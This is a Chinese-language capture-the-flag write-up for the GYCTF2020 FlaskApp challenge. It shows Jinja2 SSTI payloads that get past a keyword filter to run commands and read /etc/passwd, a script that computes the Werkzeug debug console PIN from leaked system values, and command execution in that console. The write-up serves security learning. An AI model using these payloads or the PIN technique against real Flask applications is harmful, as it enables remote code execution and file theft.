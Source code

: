 # \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码

![](../../.gitbook/assets/pi8ZT4Kba6xALdO.png)

这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入

![](../../.gitbook/assets/qCSQYk76jUBGe1Z.png)

这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标

![](../../.gitbook/assets/sXHONA7JYVdDtRi.png)

输入 PIN 值

![](<../../.gitbook/assets/image (2) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
